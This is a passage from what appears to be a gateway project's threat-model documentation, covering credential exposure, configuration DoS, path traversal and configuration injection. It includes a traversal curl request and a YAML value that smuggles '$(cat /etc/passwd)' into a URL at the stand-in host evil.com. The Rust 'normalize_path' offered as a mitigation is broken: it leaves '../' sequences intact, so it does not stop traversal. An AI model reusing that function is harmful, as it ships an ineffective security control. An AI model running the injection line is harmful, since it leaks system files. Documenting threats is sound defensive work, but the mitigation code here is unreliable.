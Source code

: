 #### 3. Credential Exposure
**Threat**: Sensitive credentials logged or exposed  
**Mitigation**: Secure logging practices and no credential logging  
**Impact**: High  

#### 4. DoS via Configuration
**Threat**: Malicious configuration causing resource exhaustion  
**Mitigation**: Configuration validation and resource limits  
**Impact**: Medium  

### Attack Scenarios

#### Path Traversal Attack
**Scenario**: Attacker attempts to bypass authentication using path traversal
```bash
curl https://gateway.example.com/../admin/secret
```

**Mitigation**:
```rust
// Normalize paths before processing
fn normalize_path(path: &str) -> String {
    path.chars()
        .fold(String::new(), |mut acc, c| {
            if c == '.' && acc.ends_with("..") {
                acc.truncate(acc.len() - 2);
            } else {
                acc.push(c);
            }
            acc
        })
}
```

#### Configuration Injection
**Scenario**: Malicious configuration with embedded commands
```yaml
# Malicious attempt
auth_service:
  endpoint: "http://evil.com/$(cat /etc/passwd)"
```

**Mitigation**: Strict URL validation and sanitization

## Security Monitoring

### Security Metrics

**Key Security Metrics to Monitor**:
- Authentication failure rates
- Unusual request patterns  
- Configuration change events
- Service availability metrics
